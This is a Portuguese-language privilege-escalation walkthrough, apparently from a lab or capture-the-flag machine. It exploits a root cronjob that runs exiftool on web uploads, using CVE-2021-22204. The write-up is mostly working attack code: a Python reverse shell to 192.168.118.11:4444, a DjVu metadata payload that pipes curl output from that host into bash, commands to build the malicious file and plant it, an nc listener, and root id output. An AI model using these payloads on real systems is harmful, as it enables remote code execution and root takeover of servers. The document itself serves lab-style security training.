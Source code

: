 ## Privilege Escalation

### Cronjob Enumeration

Identificamos uma entrada no arquivo `/etc/crontab` que executa o script `/opt/image-exif.sh` como root a cada minuto.

```
# Exibindo o conteúdo de /etc/crontab
cat /etc/crontab
```

**Cronjob Identificado**:
```
* *     * * *   root    bash /opt/image-exif.sh
```

### Script Analysis (`/opt/image-exif.sh`)

O script realiza processamento de metadados em imagens JPG usando `exiftool` e salva os dados processados em `/opt/metadata`.

```
# Exibindo o conteúdo de /opt/image-exif.sh
cat /opt/image-exif.sh
```

**Conteúdo do Script**:
```
#!/bin/bash
IMAGES='/var/www/html/subrion/uploads'
META='/opt/metadata'
FILE=$(openssl rand -hex 5)
LOGFILE="$META/$FILE"
ls $IMAGES | grep "jpg" | while read filename; do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done
```

**Análise**: O script executa `exiftool` em cada arquivo JPG no diretório de uploads, com potencial de exploração caso o `exiftool` seja vulnerável.

### Exploração de Arbitrary Code Execution com ExifTool (CVE-2021-22204)

Descoberta de vulnerabilidade de execução de código remoto (RCE) no ExifTool, documentada em CVE-2021-22204. Utilizamos o `djvumake` para criar um arquivo malicioso no formato DjVu.

1. **Instalar Dependência**: `djvulibre-bin` para gerar o arquivo DjVu.
   ```
   sudo apt-get update && sudo apt-get install -y djvulibre-bin
   ```

2. **Criar Arquivo de Payload**:
   - `shell.sh`: Script de reverse shell em Python.
   - `exploit`: Exploit para chamar `shell.sh` remotamente.
   
   ```
   # shell.sh (conteúdo do reverse shell)
   cat << 'EOF' > shell.sh
   #!/bin/bash
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.118.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   EOF
   ```

   ```
   # exploit (comando para executar o reverse shell via curl)
   cat << 'EOF' > exploit
   (metadata "\c${system ('curl http://192.168.118.11/shell.sh | bash')};")
   EOF
   ```

3. **Gerar Arquivo DjVu Malicioso**:
   ```
   djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit
   mv exploit.djvu exploit.jpg
   ```

4. **Transferir o Arquivo para o Servidor**:
   ```
   wget http://192.168.118.11/exploit.jpg -O /var/www/html/subrion/uploads/exploit.jpg
   ```

5. **Ouvir Conexão Reversa**:
   Após um minuto, o cronjob executará o payload, e a shell reversa será conectada à porta 4444.

   ```
   nc -lvnp 4444
   ```

**Resultado**:
```
# id
uid=0(root) gid=0(root) groups=0(root)
```

